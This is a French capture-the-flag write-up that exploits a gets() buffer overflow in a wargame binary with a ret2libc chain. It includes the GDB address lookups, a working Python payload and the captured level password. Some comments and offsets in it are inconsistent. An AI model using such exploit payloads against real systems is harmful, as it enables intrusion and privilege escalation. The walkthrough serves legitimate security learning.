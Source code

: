 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```
$ ./level2
(waiting for input)
$ ./level2
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=4128e95e-4279-47df-81a9-a69c5f209d01) et en extrait une version probable du code :

```c
void p()
{
    fflush(stdout);

    int buffer[16];
    gets(buffer);

    int check = buffer[20];
    if ((check & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", check);
        exit(1);
    }

    puts(buffer);
    strdup(buffer);
}

int main()
{
    p();
}
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

Tout comme le précédent niveau, il s'agirait la de ré-écrire l'adresse de retour avec un exploit type `Ret2Libc`. Ici, le code ne lance pas shell, donc à l'inverse du précédent niveau, je vais devoir utiliser la véritable `Ret2Libc`, qui consiste à aller chercher l'adresse de `system()`, (éventuellement d'`exit()` pour que le programme termine correctement) et celle de `/bin/sh` dans la `libc`.

L'exécution sera la même que pour `level1`, mais il faudra écrire ces 3 adresses dans le payload.

Pour trouver les trois adresses, ainsi que la taille de la stack, j'utilise `gdb` :

```h
$ gdb ./level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.

(gdb) disas p
Dump of assembler code for function p:
    ...
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave <---------------------- break ici
   0x0804853e <+106>:   ret
End of assembler dump.

(gdb) b *p+105
Breakpoint 1 at 0x804853d

(gdb) r
Starting program: /home/user/level2/level2
dab
dab

Breakpoint 1, 0x0804853d in p ()

(gdb) info registers
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...

(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

(gdb) info proc mappings
process 9921
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
    0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
    0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
    0x804a000  0x806b000    0x21000        0x0 [heap]
    0xb7e2b000 0xb7e2c000     0x1000        0x0
    0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so <--- libc
    0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so <--- end
    0xb7fd2000 0xb7fd5000     0x3000        0x0
    0xb7fd9000 0xb7fdd000     0x4000        0x0
    0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
    0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
    0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
    0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
    0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je peux commencer par calculer la taille de la stack comme au level précédent :

`0xbffff728 - 0xbffff6c0 = 0x68 = 104` bytes

Puis, soustraire par rapport à la position du buffer dans la stack (ici `0x4c(%ebp)`) soit

`0x68 - 0x4c = 0x1C = 28` bytes, soit : `104 - 28 = 76` bytes afin d'atteindre `ebp`.

J'ajoute 4 bytes pour écrire sur la `return address` de `main()`, soit 80 bytes.
Mon payload échouerait si je le construisais de la même manière qu'au `level1` car la première adresse après l'overflow est utilisé par ce bout de code :

```c
    int check = buffer[20];
    if ((check & 0xb0000000) == 0xb0000000)
    {
        printf("(%p)\n", check);
        exit(1);
    }
```

Afin de s'assurer qu'elle ne commence pas par le bit `0xb` (au travers d'une opération `AND`), or, mon payload ressemblerait à :

```h
"\x90" * 80 + "\xb7\xe6\xb0\x60" + "\xb7\xe6\xb0\x60" + "\xb7\xf8\xcc\x58"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^
buffer        adresse de system()  adresse d'exit()     adresse de "/bin/sh"
```

Ce qui serait problématique puisque la première adresse, qui est la nouvelle adresse de retour, commence par le bit `0xb`.

Je dois donc ajouter une étape supplémentaire dans le payload afin que le payload ne se fasse pas "attraper" par cette condition.

Une possibilité serait par exemple d'utiliser l'adresse d'un appel `ret`, par exemple celui de `p()`, puisqu'il cherchera ensuite la `return address`, qui sera la valeur suivante sur la stack, qui sera donc la suite du payload (et donc mon appel vers `system()`).

Notez que l'adresse de `/bin/sh` est mise en dernière dans le payload car c'est la manière dont les arguments de fonctions sont placées dans la stack (tout en haut de celle-ci).

Je cherche donc l'adresse de l'instruction de retour de `p()` :

```h
(gdb) disas p
Dump of assembler code for function p:
    ...
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret <------------------------ ici
```

Et je l'ajoute donc à mon payload, que je construit tel quel :

```python
"\x90" * 80
+ "\x08\x04\x85\x3e" <- return address of p, [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60" <- return address of system
+ "\x08\x04\x83\xd0" <- return address of exit
+ "\xb7\xf8\xcc\x58" <- return address of "bin/sh"
```

Et tente de l'utiliser sur le binaire :

```bash
$ (python -c 'print("\x90" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\x08\x04\x83\xd0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])' && echo 'cat /home/user/level3/.pass') | ./level2
����������������������������������������������������������������>������������>`��X���
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90"*80
+ "\x08\x04\x85\x3e"[::-1] # <- return address of p [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60"[::-1] # <- return address of exit
+ "\x08\x04\x83\xd0"[::-1] # <- return address of system
+ "\xb7\xf8\xcc\x58"[::-1] # <- return address of "bin/sh"
)' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

